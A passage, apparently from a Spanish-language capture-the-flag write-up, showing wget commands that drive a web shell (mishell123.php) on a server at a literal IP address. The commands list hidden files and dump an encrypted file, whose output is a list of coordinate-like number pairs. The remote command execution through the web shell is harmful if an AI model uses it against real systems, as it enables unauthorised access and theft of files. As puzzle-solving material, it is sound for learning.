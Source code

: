 ```text
Z:\uam>wget -O - -q http://34.247.69.86:8080/mishell123.php?cmd=ls+-a
.hydra-encrypt.txt
hailhydra
hailhydra.php
infooooo.php
mishell123.php
```

El fichero **.hydra-encrypt.txt** presenta un nombre muy sugerente. Basta con emplear **cat** para obtener su contenido, siempre y cuando esté autorizada su lectura.

```text
Z:\uam>wget -O .hydra-encrypt.txt http://34.247.69.86:8080/mishell123.php?cmd=cat+.hydra-encrypt.txt
```

El servidor obedece al mandato y transfiere lo que parece ser algún tipo de código basado en números.

```text
-51.2263816202, 8.10899805433
-3.396936473, 7.87198824054
45.1590246548, 7.93243330727
45.7384951953, -73.2066721802
-3.42714386964, -72.9107266853
-2.77172800229, 7.52185701112
19.1399952, -72.3570972
44.5607307927, -73.0205921546
43.6100611723, 6.58946301884
-2.73141067245, 8.27764655993
-50.3213413202, 7.07393246568
-51.2758314025, -73.091160021
-2.47453022387, -72.4698275544
44.2979255136, -72.4873645117
19.1399952, -72.3570972
-50.505288471, 7.6154200698
-2.77032857828, 8.45085972386
43.3953722545, 7.12287052714
45.8072900754, -73.1907339308
-2.95197936965, -72.2507948297
-3.37159885987, 7.61851969812
19.1399952, -72.3570972
44.9471915554, -71.7312374845
43.434079994, 7.05564264826
-3.77755921359, 7.3140029803
-2.1765448219, -72.9980908924
45.5157039055, -72.0750205454
-2.6665636247, -71.758301384
-52.4282156352, -73.7745944789
-50.711316091, 8.37083156669
-2.51838084051, 7.54880895033
19.1399952, -72.3570972
45.0778663225, -72.5092560673
-3.09237153981, -71.5875397405
-2.54013043815, 8.29075062273
-51.2650141235, 7.38182033986
-51.3843804847, -72.6927837569
-3.47113449173, -73.2910711802
19.1399952, -72.3570972
43.951979572, 7.34734479231
45.0774665767, -72.6653555968
-1.64013868935, -71.880258046
-2.5651543193, 7.15699499792
-51.1302541808, 6.61409584651
-51.6645314915, -72.2889667536
```